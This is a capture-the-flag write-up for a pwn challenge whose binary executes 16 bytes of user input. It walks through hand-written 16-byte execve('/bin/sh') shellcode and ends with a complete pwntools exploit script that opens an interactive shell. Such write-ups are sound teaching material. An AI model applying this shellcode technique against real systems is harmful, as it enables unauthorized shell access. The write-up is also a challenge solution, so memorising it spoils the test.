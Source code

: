 # Free Your Mind - PWN (200pts)

```c
#include <stdio.h>
#include <unistd.h>

char shellcode[16];

int main() {
    char binsh[8] = "/bin/sh";

    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    printf("I'm trying to free your mind, Neo. But I can only show you the door\
. You're the one that has to walk through it.\n");
    read(0, shellcode, 16);

    ((void (*)()) (shellcode))();
}
```

## Investigation
This challenge is more a task of avoiding constraints rather than identifying a weakness and exploiting it. From the source code we can see that the binary reads input data, stores it in the array declared as shellcode and then attempts to run this as a function. Assuming we can input a working shellcode to the binary, it should spawn a shell. Since the pointer is provided by the source code, we don't have to worry about ASLR for this challenge.

But there is a problem - The allocated memory for shellcode is only 16 bytes. By using conventional methods such as pwntools shellcraft.sh() or cherrypicking shellcode from shell-storm.org we will end up with too many bytes and our exploit will not work. 

For example, by using `asm(shellcraft.sh())`, we end up with 48 bytes of shellcode. You could potentially MacGyver some short online shellcode with the right pointer, but where is the fun in that?

## Solution

It looks like we will just have to write our own shellcode, which is probably the intended solution by the author as well. It forces us to learn how it works and that makes it a good chall in my opinion. 

Let's first understand what we need to do. The code we want to execute is a syscall known as `execve('/bin/sh')`. Since we are coding this in Assembly we need to check the register and value set-up before we start. A good resource on this is https://filippo.io/linux-syscall-table/. Search for execve and double click the entry to expand.

We see that execve() is a syscall that needs RAX to have the value of 59 (0x3b) when you call the system. It then takes three arguments; a filename pointer in RDI, an argv in RSI and env in RDX. We don't really care about the last two. To explain this in terms of pseudo-Assembly we want to execute `syscall(RAX, RDI, RSI, RDX)`, where `RAX=0x3b`, `RDI=<pointer to '/bin/sh'>`, `RSI=0x0` and `RDX=0x0`.

The static values are easy, we know them now. All we need is the pointer. Open the binary in GDB, run, CTRL+C to interrupt the process and type `find '/bin/sh'`. We know from the source code that there is a pointer in main so we just need to grab it: `0x4011b3`

Now we can stitch together assembly-code. We know that we need the code to be 16 bytes or lower, so let's use the 32-bit registers to make the syscall to shorten down. We can start with the parameters of execve(): `EDI, ESI, EDX`:

`mov edi, 0x4011b3;`, `xor esi, esi;`, `xor edx, edx;`. XORing a register with itself is an effective way of zeroing it out rather than using mov and 0x0.

That's our params set up. Now to make the right syscall - EAX needs to be 0x3b:

`mov eax, 0x3b;` and then make the call to system: `syscall;`.

Stitch it together with pwntools asm():

```py
shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;')
```

This translates to `execve('/bin'sh')` You can check the length of the shellcode with a quick python sandbox:
```py
>>> from pwn import *
>>> len(asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;'))
16
```

That should do the trick. Now plop it into a script and run the exploit:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'DEBUG'

gdbscript = '''
b *0x0000000000401245
continue
'''.format(**locals())

io = process('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d')
#io = gdb.debug('./shellcoding-5f75e03fd4f2bb8f5d11ce18ceae2a1d',  gdbscript=gdbscript)
#io = remote('chal.ctf.b01lers.com', '1007')

shellcode = asm('mov edi, 0x4011b3; xor esi, esi; xor edx, edx; mov eax, 0x3b; syscall;')

log.info(f'Shellcode length: {len(shellcode)}')

io.sendlineafter('it.', shellcode)

io.interactive()
```

![](assets/pwned.png)

Remote was down when I wrote this, but exploits works:)
